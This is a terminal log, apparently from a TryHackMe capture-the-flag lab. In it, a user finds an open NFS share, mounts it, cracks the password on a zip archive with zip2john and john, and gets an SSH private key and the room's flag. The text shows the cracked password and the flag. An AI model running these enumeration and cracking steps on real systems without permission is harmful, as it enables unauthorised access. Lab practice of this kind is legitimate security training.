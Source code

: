                                                                                                                     
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ telnet 10.10.151.140     
Trying 10.10.151.140...
Connected to 10.10.151.140.
Escape character is '^]'.
550 12345 0f8008707ff07ff8000008088ff800000000f7000000f800808ff00Connection closed by foreign host.
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ ftp 10.10.151.140
Connected to 10.10.151.140.
550 12345 0f7000f800770008777 go to port 12345 80008f7f700880cf00421 Service not available, remote server has closed connection.
ftp> ls
Not connected.
ftp> exit
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ ftp 10.10.151.140 12345
Connected to 10.10.151.140.
NFS shares are cool, especially when they are misconfigured
ftp> ls
Not connected.
ftp> exit
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ showmount -e 10.10.151.140           
Export list for 10.10.151.140:
/home/nfs *
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ ls /mnt                          
hack  nfs
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ mkdir /mnt/server_from_hell
mkdir: cannot create directory ‘/mnt/server_from_hell’: Permission denied
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ sudo mkdir /mnt/server_from_hell
[sudo] password for alvan: 
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ sudo mount -t nfs 10.10.151.140:/home/nfs /mnt/server_from_hell
tp>                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ ls /mnt/server_from_hell
backup.zip
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ cd /mnt/server_from_hell
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ ls                      
backup.zip
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ unzip backup.zip                         
Archive:  backup.zip
checkdir error:  cannot create home
                 Read-only file system
                 unable to process home/hades/.ssh/.
[backup.zip] home/hades/.ssh/id_rsa password: 
password incorrect--reenter: 
password incorrect--reenter: 
   skipping: home/hades/.ssh/id_rsa  incorrect password
[backup.zip] home/hades/.ssh/hint.txt password: 
   skipping: home/hades/.ssh/hint.txt  incorrect password
   skipping: home/hades/.ssh/authorized_keys  incorrect password
   skipping: home/hades/.ssh/flag.txt  incorrect password
   skipping: home/hades/.ssh/id_rsa.pub  incorrect password


                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ 
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ 
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ zip2john backup.zip > backup_hash      
zsh: read-only file system: backup_hash
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ sudo zip2john backup.zip > backup_hash
zsh: read-only file system: backup_hash
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ ls -la                  
total 16
drwxr-xr-x 2 nobody nogroup 4096 Sep 15  2020 .
drwxr-xr-x 5 root   root    4096 Sep  1 19:12 ..
-rw-r--r-- 1 root   root    4534 Sep 15  2020 backup.zip
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ sudo zip2john backup.zip >hash        
zsh: read-only file system: hash
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ sudo zip2john backup.zip      
ver 1.0 backup.zip/home/hades/.ssh/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa PKZIP Encr: TS_chk, cmplen=2107, decmplen=3369, crc=6F72D66B ts=B16D cs=b16d type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** backup.zip/home/hades/.ssh/hint.txt PKZIP Encr: TS_chk, cmplen=22, decmplen=10, crc=F51A7381 ts=B16D cs=b16d type=0
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/authorized_keys PKZIP Encr: TS_chk, cmplen=602, decmplen=736, crc=1C4C509B ts=B16D cs=b16d type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** backup.zip/home/hades/.ssh/flag.txt PKZIP Encr: TS_chk, cmplen=45, decmplen=33, crc=2F9682FA ts=B16D cs=b16d type=0
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa.pub PKZIP Encr: TS_chk, cmplen=602, decmplen=736, crc=1C4C509B ts=B16D cs=b16d type=8
backup.zip:$pkzip$5*1*1*0*0*24*b16d*80696ae8c675f1ef5df2906662a9a7ce07485c18db37feb8b97ed560e572ce5cf805afb4*1*0*8*24*b16d*7d8849d53ca2d690df91b5f8ff302e0eae9c13c7fbb169b6d935abdfef8c00e339f84c09*1*0*8*24*b16d*f08eeb86fce5cd5368b57ab3b4848df3b526da3fc467bc17c191210c596608311a8a5cf1*1*0*8*24*b16d*7168a30d9a64dc6df0956c675b62ff980dbd4f16fe022b1abb1c75e1943c97e47bbdc5f5*2*0*16*a*f51a7381*8e5*52*0*16*b16d*5050fa8c08f92051a2cad9941e8a8f4522a8c5dbfa32*$/pkzip$::backup.zip:home/hades/.ssh/hint.txt, home/hades/.ssh/flag.txt, home/hades/.ssh/authorized_keys, home/hades/.ssh/id_rsa.pub, home/hades/.ssh/id_rsa:backup.zip
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ ftp 10.10.151.140 51                
Connected to 10.10.151.140.
220 l-B FTP server (NetWare v2728) ready.
Name (10.10.151.140:alvan): anonymous

ftp: Login failed
ftp> exit
ftp: lostpeer due to signal 13
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ ftp 10.10.151.140 51
Connected to 10.10.151.140.
220 l-B FTP server (NetWare v2728) ready.
Name (10.10.151.140:alvan): 

ftp: Login failed
ftp> exit
ftp: lostpeer due to signal 13
                                                                                                                    
┌──(alvan㉿vbox)-[/mnt/server_from_hell]
└─$ cd ~/THM/ctf                               
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ mv /mnt/server_from_hell/backup.zip .      
mv: cannot remove '/mnt/server_from_hell/backup.zip': Read-only file system
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ zip2john backup.zip > backup_hash
ver 1.0 backup.zip/home/hades/.ssh/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa PKZIP Encr: TS_chk, cmplen=2107, decmplen=3369, crc=6F72D66B ts=B16D cs=b16d type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** backup.zip/home/hades/.ssh/hint.txt PKZIP Encr: TS_chk, cmplen=22, decmplen=10, crc=F51A7381 ts=B16D cs=b16d type=0
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/authorized_keys PKZIP Encr: TS_chk, cmplen=602, decmplen=736, crc=1C4C509B ts=B16D cs=b16d type=8
ver 1.0 efh 5455 efh 7875 ** 2b ** backup.zip/home/hades/.ssh/flag.txt PKZIP Encr: TS_chk, cmplen=45, decmplen=33, crc=2F9682FA ts=B16D cs=b16d type=0
ver 2.0 efh 5455 efh 7875 backup.zip/home/hades/.ssh/id_rsa.pub PKZIP Encr: TS_chk, cmplen=602, decmplen=736, crc=1C4C509B ts=B16D cs=b16d type=8
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ cat backup_hash
backup.zip:$pkzip$5*1*1*0*0*24*b16d*80696ae8c675f1ef5df2906662a9a7ce07485c18db37feb8b97ed560e572ce5cf805afb4*1*0*8*24*b16d*7d8849d53ca2d690df91b5f8ff302e0eae9c13c7fbb169b6d935abdfef8c00e339f84c09*1*0*8*24*b16d*f08eeb86fce5cd5368b57ab3b4848df3b526da3fc467bc17c191210c596608311a8a5cf1*1*0*8*24*b16d*7168a30d9a64dc6df0956c675b62ff980dbd4f16fe022b1abb1c75e1943c97e47bbdc5f5*2*0*16*a*f51a7381*8e5*52*0*16*b16d*5050fa8c08f92051a2cad9941e8a8f4522a8c5dbfa32*$/pkzip$::backup.zip:home/hades/.ssh/hint.txt, home/hades/.ssh/flag.txt, home/hades/.ssh/authorized_keys, home/hades/.ssh/id_rsa.pub, home/hades/.ssh/id_rsa:backup.zip
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ john -w /usr/share/wordlists/rockyou.txt backup_hash
Warning: only loading hashes of type "tripcode", but also saw type "descrypt"
Use the "--format=descrypt" option to force loading hashes of that type instead
Warning: only loading hashes of type "tripcode", but also saw type "pix-md5"
Use the "--format=pix-md5" option to force loading hashes of that type instead
Warning: only loading hashes of type "tripcode", but also saw type "mysql"
Use the "--format=mysql" option to force loading hashes of that type instead
Warning: only loading hashes of type "tripcode", but also saw type "oracle"
Use the "--format=oracle" option to force loading hashes of that type instead
Warning: only loading hashes of type "tripcode", but also saw type "Raw-SHA1"
Use the "--format=Raw-SHA1" option to force loading hashes of that type instead
Warning: only loading hashes of type "tripcode", but also saw type "LM"
Use the "--format=LM" option to force loading hashes of that type instead
Warning: only loading hashes of type "tripcode", but also saw type "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading hashes of that type instead
Warning: only loading hashes of type "tripcode", but also saw type "bfegg"
Use the "--format=bfegg" option to force loading hashes of that type instead
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Session aborted
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backup_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
zxcvbnm          (backup.zip)     
1g 0:00:00:00 DONE (2025-09-01 19:29) 8.333g/s 34133p/s 34133c/s 34133C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ ls    
apache-certificate.crt  capture.pcap    hack               publisher  rsa.pub     task.txt    willow_hack  zeno3c0
apache.key              carnage.pcap    hacker_willow_rsa  reports    script.py   update.txt  willow_hash
backup.zip              carnage.pcap.1  locks.txt          root.txt   shell.php   user.jpg    willow_rsa
backup_hash             exploit.py      loot               rsa        stealer.js  willow.md   writeup.md
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ ls hack
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ mv backup.zip hack                   
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf]
└─$ cd hack          
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf/hack]
└─$ unzip backup.zip
Archive:  backup.zip
   creating: home/hades/.ssh/
[backup.zip] home/hades/.ssh/id_rsa password: 
password incorrect--reenter: 
  inflating: home/hades/.ssh/id_rsa  
 extracting: home/hades/.ssh/hint.txt  
  inflating: home/hades/.ssh/authorized_keys  
 extracting: home/hades/.ssh/flag.txt  
  inflating: home/hades/.ssh/id_rsa.pub  
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf/hack]
└─$ ls     
backup.zip  home
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf/hack]
└─$ ls home
hades
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf/hack]
└─$ ls home/hades
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf/hack]
└─$ ls home/hades/.ssh
authorized_keys  flag.txt  hint.txt  id_rsa  id_rsa.pub
                                                                                                                    
┌──(alvan㉿vbox)-[~/THM/ctf/hack]
└─$ cd home/hades/.ssh
                                                                                                                    
┌──(alvan㉿vbox)-[~/…/hack/home/hades/.ssh]
└─$ cat flag.txt      
thm{h0p3_y0u_l1k3d_th3_f1r3w4ll}
                                                                                                                    
┌──(alvan㉿vbox)-[~/…/hack/home/hades/.ssh]
└─$ cat hint.txt
2500-4500
                                                                                                                    
┌──(al
